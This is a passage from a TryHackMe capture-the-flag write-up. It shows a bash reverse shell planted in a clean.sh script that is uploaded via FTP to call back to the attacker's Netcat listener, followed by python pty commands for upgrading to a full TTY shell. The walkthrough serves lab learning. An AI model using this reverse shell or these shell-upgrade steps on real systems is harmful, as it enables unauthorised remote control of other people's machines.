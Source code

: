 + **Reverse shell clean.sh script**:

Edit $IP with your own attacking machine IP also found per http://10.10.10.10/ if connected via the TryHackMe OpenVPN. Then we upload it back to the FTP server, initiate a Netcat listener through port 5554, and wait for the **clean.sh** script to be executed.

```
#!/bin/bash

bash -i >& /dev/tcp/$IP/5554 0>&1
```

![image](images/anonymous-3.png)

+ **Spawning TTY Shell**:

Upon initial access, it is essential to achieve the highest functional shell possible for privesc purposes. Otherwise, commands like `sudo -l` will not work.
```
# On target machine  
which python  
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Background the listener using ctrl+z  
stty raw -echo; fg
# It then foregrounds the shell again, thus completing the process.
```

Now that we have an initial shell on this machine as user, we can further enumerate the machine and escalate our privileges to root.

---
## 3. Post Exploitation

### 3.1 User Flag:<a name="31-user-flag"></a>

In order to get the user flag, we simply need to use `ls` to see what files we can find.

![image](images/anonymous-4.png)

